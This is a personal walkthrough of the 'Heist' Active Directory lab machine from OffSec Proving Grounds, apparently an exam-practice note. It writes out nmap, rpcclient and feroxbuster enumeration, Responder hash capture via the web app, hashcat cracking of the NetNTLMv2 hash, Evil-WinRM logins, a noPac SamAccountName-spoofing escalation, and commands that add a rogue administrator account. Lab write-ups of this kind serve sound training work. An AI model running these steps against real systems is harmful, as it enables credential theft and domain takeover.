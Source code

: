 # NMAP 

```
sudo nmap -sC -sV 192.168.120.165 -oN nmap-heist
```

![[PG/Active Directory/attachments/Pasted image 20250707211724.png]]
- domain: heist.offsec -> add to /etc/hosts

# SMB 

![[PG/Active Directory/attachments/Pasted image 20250707211944.png]]
- nope but: dc01.heist.offsec -> add to /etc/hosts

![[PG/Active Directory/attachments/Pasted image 20250707212124.png]]
- nope 

# RPC 

```
rpcclient -U '' -N 192.168.120.165
```

![[PG/Active Directory/attachments/Pasted image 20250707212248.png]]
- nope

# Web (Port 8080)

![[PG/Active Directory/attachments/Pasted image 20250707212425.png]]
- looks the same with domain name 

## Ferox 

```
feroxbuster -u http://192.168.120.165:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```


Entered 127.0.0.1 in search and got this error

![[PG/Active Directory/attachments/Pasted image 20250707212713.png]]
- Galactic Web Service of Sagittarius V4641?
- May be jokes from the dev of The E.N.D or Gitmicks


Trying my IP naturally 

![[PG/Active Directory/attachments/Pasted image 20250707213103.png]]
- weird flash of something 

No hits 
![[PG/Active Directory/attachments/Pasted image 20250707213135.png]]

Added http and I did get a hit 

![[PG/Active Directory/attachments/Pasted image 20250707213209.png]]

![[PG/Active Directory/attachments/Pasted image 20250707213226.png]]

Random topic goes to localhost I guess
![[PG/Active Directory/attachments/Pasted image 20250707213350.png]]

Soooo I thought about trying responder 

```
sudo responder -I tun1 
```

Then I entered `http://192.168.45.152/445/`

It looks like I did actually get a usable hash...

![[PG/Active Directory/attachments/Pasted image 20250707214620.png]]

Noiiice

Save this NTLMv2 hash to a file for the 'enox' user 

Mode: 5600 for NetNTLMv2

```
hashcat -m 5600 ntlmv2.hash /usr/share/wordlists/rockyou.txt --force
```

It cracked to `california`

![[PG/Active Directory/attachments/Pasted image 20250707214927.png]]

So creds are `enox:california`

These are valid :) 

![[PG/Active Directory/attachments/Pasted image 20250707215135.png]]

```
heist.offsec\enox:california 
```

Yayayay looks like these work with winrm 

```
nxc winrm 192.168.120.165 -u 'enox' -p 'california' 
```

![[PG/Active Directory/attachments/Pasted image 20250707215318.png]]

# Login with Evil-WinRM

```
evil-winrm -i 192.168.120.165 -u 'enox' -p 'california'
```

Grab user flag 

![[PG/Active Directory/attachments/Pasted image 20250707215441.png]]

Checking out these user notes 

![[PG/Active Directory/attachments/Pasted image 20250707215630.png]]
- Flask App for Secure Browser
- managed service account for apache

Looks like the Flask application is still in here 

![[PG/Active Directory/attachments/Pasted image 20250707215740.png]]

Before going too far into this rabbit hole... let's do some more enum. 

Whoami 

![[PG/Active Directory/attachments/Pasted image 20250707215937.png]]

Is SeMachineAccountPrivilege exploitable?

![[PG/Active Directory/attachments/Pasted image 20250707220122.png]]
- okay, go off google. 
- maybe this is tthe path

Here are some basic steps 

![[PG/Active Directory/attachments/Pasted image 20250707220204.png]]

I think I can add a new account with PowerMad and this Repo may cover the SamAccount spoofing 

https://www.hackingarticles.in/windows-privilege-escalation-samaccountname-spoofing/

https://github.com/Ridter/noPac

Worth a shot...

# Priv Esc by Exploiting SeMachineAccountPrivilege

```
python3 noPac.py heist.offsec/enox:'california' -dc-ip 192.168.120.165 -shell --impersonate administrator -use-ldap
```


![[PG/Active Directory/attachments/Pasted image 20250707221051.png]]

This worked! lol

I can't change directories to get the flag though....

![[PG/Active Directory/attachments/Pasted image 20250707221413.png]]

Add a new administrative user

```
net user [username] [password] /add
```

```
net localgroup administrators [username] /add
```

![[PG/Active Directory/attachments/Pasted image 20250707221642.png]]

Test access with new admin user with nxc 

```
nxc smb 192.168.120.165 -u 'cadet' -p 'Password1!'
```
![[PG/Active Directory/attachments/Pasted image 20250707221809.png]]

Loginnnnnn

```
impacket-psexec 
```
- didn't work 

![[PG/Active Directory/attachments/Pasted image 20250707222327.png]]

# Tested WinRM and Evil-WinRM worked

![[PG/Active Directory/attachments/Pasted image 20250707222406.png]]

## Login as my new admin user with Evil-WinRM

```
evil-winrm -i 192.168.120.165 -u 'cadet' -p 'Password1!'
```

![[PG/Active Directory/attachments/Pasted image 20250707222504.png]]

Go git admin flag

![[PG/Active Directory/attachments/Pasted image 20250707222203.png]]

That's definitely the fastest I've ever pwned a box. TY Ippsec.

Got system.

